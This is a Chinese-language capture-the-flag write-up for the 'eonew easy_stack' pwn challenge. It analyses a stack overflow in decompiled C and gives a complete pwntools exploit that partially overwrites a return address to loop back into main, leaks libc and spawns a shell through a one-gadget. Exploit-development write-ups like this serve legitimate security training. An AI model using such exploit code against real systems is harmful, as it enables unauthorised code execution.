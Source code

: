 # eonew easy_stack

### 0x0 前置补偿

`read()`函数测试

```c
# include <stdio.h>
# include <stdlib.h>
# include <unistd.h>
# include <string.h>

int main()
{
  char s[100];
  int cnt = read(0, s, 2);
  int cnt1;
  scanf("%d", &cnt1);
  printf("%s\n", s);
  printf("%d\n", strlen(s));
  printf("%d\n", cnt);
  printf("%d\n", cnt1);
  return 0;
}
```

```shell
➜  eonew python -c "print '\x001'" | ./1

0
2
0
```

`read()`遇到`\x00`就结束读取了。

### 0x1 分析

```shell
[*] './easy_stack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

地址随机化。但是没有CANARY。

程序逻辑很简单：

`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+0h] [rbp-80h]

  alarm(0x3Cu);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  read_n(&s, 0x100uLL);
  puts(&s);
  return 0;
}
```

读取一个字符串到`s`，然后输出`s`。

`read_n()`

```c
// a2 == 0x100
void *__fastcall read_n(void *ptr, unsigned __int64 len)
{
  int v2; // eax
  char s[520]; // [rsp+10h] [rbp-210h]
  int v5; // [rsp+218h] [rbp-8h]
  int v6; // [rsp+21Ch] [rbp-4h]

  v6 = 0;
  if ( len > 0x200 )
  {
    puts("too long!");
    exit(-1);
  }
  do
  {
    read(0, &s[v6], 1uLL);
    if ( s[v6] == '\n' )
      break;
    if ( !s[v6] )
      break;
    v2 = v6++;
  }
  while ( len > v2 );
  if ( s[v6] == '\n' && len > v6 )           
    s[v6] = 0;
  v5 = strlen(s);
  return memcpy(ptr, s, v5);
}
```

这里看到每次`read()`读取一个字符，所以，遇到`\x00`和`\n`都会停止读取。

而且，读取的所有字符会拷贝回`main`的`s`。由于长度最大限制是`0x100`，会造成栈溢出。

**漏洞利用**

首先想到的是循环复用`main`来循环读取，但是地址随机化没办法直接使用IDA里的`main`地址。但是注意到ret上的返回地址`__libc_start_main`的地址是`0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax`可以覆盖一个低字节把`\x97`变成`\x90`，这样ret就会指向：

```assembly
.text:0000000000021B90                 mov     rax, [rsp+0B8h+var_A0]
.text:0000000000021B95                 call    rax
```

刚好可以回到调用`main`的地方。就可以又回到`main`了。

另外在`puts(s)`的时候会把这个地址输出，从而`leak libc`。可以在下次栈溢出来get shell。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *
 
context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64', os = 'linux', log_level='debug')

def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

# p = process('./easy_stack')
p = remote('nc.eonew.cn', 10004)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  
libc = ELF('./libc-2.27.so')
gadget = 0x4f2c5

# leak libc
# debug(p, 'b *$rebase(0xa3c)\n')
payload = 'a'*0x88 + '\x90\x00'
p.send(payload)
p.recvuntil('a'*0x88)
ret = u64(p.recvuntil('\x7f').ljust(8, '\x00')) 
libc_base = ret + 7 - 231 - libc.symbols['__libc_start_main'] #  (__libc_start_main+231)
print ('ret: ', hex(ret))
print ('libc: ', hex(libc_base))
pause()

# one gadget
payload = 'a' * 0x88 + p64(libc_base + gadget)
p.send(payload)
p.interactive()
```

